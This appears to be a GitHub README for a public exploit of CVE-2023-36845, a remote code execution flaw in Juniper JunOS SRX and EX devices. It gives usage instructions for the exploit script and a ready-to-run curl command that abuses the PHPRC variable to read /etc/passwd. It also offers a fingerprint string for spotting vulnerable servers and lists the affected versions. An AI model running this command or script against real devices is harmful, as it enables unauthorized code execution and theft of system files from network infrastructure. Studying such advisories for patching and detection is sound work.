 #CVE-2023-36845 
#RCE in Juniper JunOS within SRX and EX Series, CVSS: 9.8

Related CVEs: CVE-2023-36844, CVE-2023-36845, CVE-2023-36846, CVE-2023-36847, and CVE-2023-36851                                             Written by Ferdi Gül @2023                                              

Usage of ./exploit_CVE-2023-36845.py:
  -h help
  -u Target URL
    	python3 exploit_CVE-2023-36845.py -u http://example.com


Through skillful manipulation of a tailored request to configure the PHPRC variable, an attacker gains the ability to modify the PHP execution environment, facilitating the injection and execution of code.

To verify the vulnerability on your system, you can also use the code snippet below:
$ curl <Target_URL> -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'

In addition, based on my examinations so far, it is advisable to be particularly cautious with servers containing the character "#js2nr0px1R2" assigned to the variable "document.login.password.value" embedded in the web server script as well. So, in my observations, I have noticed that all instances I have examined with this characteristic are vulnerable for now.

Affected versions:
All versions prior to 20.4R3-S9;
21.1 version 21.1R1 and later versions;
21.2 versions prior to 21.2R3-S7;
21.3 versions prior to 21.3R3-S5;
21.4 versions prior to 21.4R3-S5;
22.1 versions prior to 22.1R3-S4;
22.2 versions prior to 22.2R3-S2;
22.3 versions prior to 22.3R2-S2, 22.3R3-S1;
22.4 versions prior to 22.4R2-S1, 22.4R3;
23.2 versions prior to 23.2R1-S1, 23.2R2.


Install Requirements:

$ pip install -r requirements.txt


Run the exploit script:

$ python3 exploit_CVE-2023-36846.py -h
$ python3 exploit_CVE-2023-36845.py -u http://example.com
